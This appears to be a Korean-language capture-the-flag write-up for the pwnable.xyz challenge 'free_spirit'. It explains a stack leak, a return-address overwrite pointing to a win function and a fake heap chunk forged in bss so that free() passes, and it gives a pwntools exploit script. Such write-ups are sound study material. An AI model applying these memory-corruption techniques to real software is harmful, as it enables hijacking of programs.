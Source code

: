 movdqu는 16바이트 단위 memcpy라고 생각하면 되는데, 요걸로 rsp + 0x8 부분에 원하는 주소를 쓸 수 있고,  그러면 rsp + 0x10도 쓸 수 있다. 근데 1번 메뉴가 인풋이라서, rsp + 0x10 주소에 값을 쓸 수 있다. 2번 메뉴로 스택 릭 해서 rip 를 덮으면 되는데, 이 때 프로그램이 끝날때 free(rsp + 0x10) 을 해서 rsp + 0x10에 fake chunk를 만들어 줘야 정상적으로 free가 되고 ret이 된다. 그래서 rip를 win으로 덮고 fake chunk를 bss에 만들어주면 된다.

전역변수에 fake chunk를 생성하는 발상은 익혀둬야 될 것 같다.

```python
from pwn import *
#p = process("./free_spirit")
p = remote("svc.pwnable.xyz", 30005)
elf = ELF("./free_spirit")
bss = 0x601030
pause()
def inp(data):
	p.sendlineafter(">", "1")
	p.send(data)

def leak():
	p.sendlineafter(">", "2")
	return int(p.recvline(), 16)
def movdqu():
	p.sendlineafter(">", "3")

if __name__ == "__main__":
	stack = leak()
	p.success("stack : " + hex(stack))
        p.success("rip : " + hex(stack + 0x58))
        p.success("bss : " + hex(bss))
        payload = "a" * 8 + p64(stack + 0x58)
        inp(payload)
        movdqu()
        inp(p64(elf.symbols['win']) + p64(bss + 0x8))
        movdqu()
        inp(p64(0x51) + p64(bss + 0x58))
        movdqu()
        inp(p64(0x51) + p64(bss + 0x10))
        movdqu()
	p.interactive()
```

